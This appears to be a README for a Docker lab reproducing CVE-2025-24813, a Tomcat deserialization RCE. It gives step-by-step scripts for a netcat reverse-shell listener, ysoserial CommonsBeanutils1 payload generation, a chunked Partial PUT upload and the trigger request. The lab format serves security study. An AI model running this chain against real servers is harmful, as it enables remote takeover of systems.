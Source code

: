 ```yaml
---
tags: [tomcat, cve-2025-24813, java, rce, reverse-shell, lab]
title: 🧪 CVE-2025-24813 Tomcat RCE Lab (Docker + ysoserial)
---
```


🧪 **CVE-2025-24813 Tomcat RCE Lab (Docker + ysoserial)**

This lab demonstrates remote code execution via unsafe Java deserialization in a Tomcat-hosted app that processes serialized session files. The full environment runs in Docker with a crafted reverse shell payload delivered via a Partial PUT request.

---

📁 **Directory Layout**

```
.
├── 0-run-tomcat.sh        # Build + run vulnerable Tomcat container
├── 1-generate-revshell.sh # Start Netcat reverse shell listener
├── 2-generate-payload.sh  # Generate ysoserial reverse shell payload
├── 3-upload-file.sh       # Upload serialized payload via Partial PUT
├── 4-exploit.sh           # Trigger deserialization endpoint
├── readme.md              # This file
├── source.sh              # Sets CALLBACK_IP, LISTENER_PORT, etc
├── dummy-app/
│   ├── src/
│   │   └── main/java/com/example/DeserializeServlet.java
│   ├── pom.xml
│   └── Dockerfile
```

---

⚙️ **Prerequisites**

Install Java and Netcat:

```
brew install openjdk netcat
```

Ensure you’re using JDK 11+ and allow unsafe module access via `--add-opens`.

---

🧨 **Exploit Flow**

1. 🛠 Build and run vulnerable Tomcat
2. 🐚 Start reverse shell listener
3. 💣 Generate ysoserial payload (`CommonsBeanutils1`)
4. 📤 Upload payload using HTTP Partial PUT
5. 🎯 Trigger deserialization and catch shell

---

🧪 **Usage**

### 1. Build and run vulnerable Tomcat

```
bash 0-run-tomcat.sh
```

---

### 2. Set environment variables

Create a `source.sh` file like this:

```
export CALLBACK_IP="your.lan.ip"
export LISTENER_PORT=4444
export PAYLOAD_FILE="rev_shell.ser"
export TARGET_URL="http://localhost:8080/xxx-api/gopan.session"
export CHUNK_SIZE=100
```

Then source it:

```
source source.sh
```

---

### 3. Start reverse shell listener

In a separate terminal:

```
bash 1-generate-revshell.sh
```

This runs:

```
nc -lnvp 4444
```

---

### 4. Generate the payload

```
bash 2-generate-payload.sh
```

This will:

- Download `ysoserial.jar` if needed
- Generate a `CommonsBeanutils1` payload with reverse shell
- Save it as `rev_shell.ser`

---

### 5. Upload the payload

```
bash 3-upload-file.sh
```

This script performs an HTTP Partial PUT upload in chunks using `Content-Range` headers.

---

### 6. Trigger the exploit

```
bash 4-exploit.sh
```

This hits:

```
http://localhost:8080/xxx-api/profile
```

Which deserializes the uploaded file and executes the payload.

> ✅ You’ll get a reverse shell in the Netcat terminal!

---

🔍 **Debugging**

Inside the container:

```
docker exec -it vulnerable-tomcat bash
cd /usr/local/tomcat/webapps/xxx-api/
ls -l
```

Check if the file `/tmp/beanutils-worked` exists if testing with a safe payload.

---

💡 **Notes**

- Payloads require `--add-opens` to bypass module restrictions in Java 11+
- Reverse shell might fail silently if `/bin/bash` isn’t available (try `/bin/sh`)
- You can safely test code execution with: `touch /tmp/rce-worked`

---

🧱 **Based On**

- [frohoff/ysoserial](https://github.com/frohoff/ysoserial)
- Apache Tomcat 9.x
- Java deserialization exploit chains (CommonsBeanutils1)

---
